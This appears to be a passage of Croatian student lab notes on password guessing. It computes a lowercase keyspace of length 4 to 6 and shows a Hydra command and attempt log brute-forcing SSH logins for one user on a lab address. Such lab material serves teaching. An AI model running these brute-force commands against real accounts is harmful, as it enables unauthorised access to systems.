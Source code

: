 </aside>

## 3. Online napad

- pokušajemo se ulogirati s različitim lozinkama i čekamo dok se ne ulogiramo

S obzirom na spoznaju da SSH ne blokira klijente bez obzira koliko puta pogriješili lozinku znamo da možemo izvesti online napad.

### 3. Keyspace

- domena riječi koju želimo isprobati kao potencijalnu lozinku

Zadano:

- lowercase, samo slova engleske abecede, 26 znakova
- duljina, 4 - 6 znakova
    
    ![Untitled](Lab5-OnlineAndOfflinePasswordGuessingAttack/Untitled.png)
    
    ⇒ 321 254 128 kombinacija
    
    ili 
    
    26^4 * ( 26^2 + 26 + 1 ) **≈** 26^6=300m
    

### 3.1 Bruteforce with Hydra

- proći sve kombincije - online

Da bi to izveli koristimo automatizirani alat **Hydru**.

`hydra -l durdov_bozo -x 4:6:a 10.0.15.1 -V -t 1 ssh`

<aside>
💡 Uzmi mi username durdov_bozo i pokusaj mi glumit ssh klijenta i spajaj se na ovu adresu, i testiraj mi sve sifre iz ovog naseg spacea.

</aside>

```bash
hydra -l durdov_bozo -x 4:6:a 10.0.15.1 -V -t 1 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 16:32:48
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.1:22/
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaac" - 3 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaad" - 4 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaae" - 5 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaf" - 6 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaag" - 7 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaah" - 8 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaai" - 9 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaj" - 10 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaak" - 11 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaal" - 12 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaam" - 13 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaan" - 14 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaao" - 15 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaap" - 16 of 321254128 [child 0] (0/0)
```